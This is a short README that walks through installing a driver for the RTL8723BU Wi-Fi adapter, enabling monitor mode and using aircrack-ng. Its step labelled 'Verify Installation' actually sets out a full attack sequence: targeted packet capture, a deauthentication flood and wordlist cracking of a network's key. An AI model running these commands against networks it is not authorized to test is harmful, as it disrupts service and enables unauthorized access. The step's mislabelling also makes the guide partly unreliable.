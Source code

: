 # Wifi-hacking-rtl8723bu

To use your Realtek Semiconductor Corp. RTL8723BU 802.11b/g/n WLAN Adapter with *aircrack-ng*, you may need to install specific drivers that support monitor mode and packet injection. Here's a general guide to help you with the process on a Linux system:

### Step 1: Update Your System

Before installing any drivers, make sure your system is up to date:

bash
sudo apt update
sudo apt upgrade


### Step 2: Install Required Packages

You'll need some essential packages for compiling the driver:

bash
sudo apt install build-essential dkms git


### Step 3: Download and Install the Driver

1. *Download the Driver Source Code*:

   You can find the driver for the RTL8723BU on GitHub. Clone the repository using the following command:

   bash
   git clone https://github.com/lwfinger/rtl8723bu.git
   

2. *Build and Install the Driver*:

   Navigate to the downloaded directory and build the driver:

   bash
   cd rtl8723bu
   make
   sudo make install
   

3. *Load the Driver*:

   Once installed, load the driver using:

   bash
   sudo modprobe 8723bu
   

### Step 4: Enable Monitor Mode

After installing the driver, you can enable monitor mode using the following command:

bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up


Note: Replace wlan0 with your actual wireless interface name if it's different.

### Step 5: Verify Installation

Verify that your adapter supports monitor mode and packet injection:

bash
airodump-ng wlan0


bash
airodump-ng -c [channel] --bssid [BSSID] -w  capture wlan0


bash
aireplay-ng --deauth 10 -a [BSSID] wlan0


bash
aircrack-ng capture.cap -w [wordlist]


You should see "Mode:Monitor" next to your wireless interface.

### Troubleshooting

- *Driver Compatibility*: If you face any issues, ensure the driver you are using is compatible with your kernel version.
- *Error Messages*: Check for error messages during the make or make install process. They can provide clues about what might be going wrong.
- *Reboot*: Sometimes, a simple reboot can help load the necessary drivers correctly.

This should set up your Wi-Fi adapter for use with *aircrack-ng*. If you encounter specific errors or issues, feel free to ask for more detailed troubleshooting!
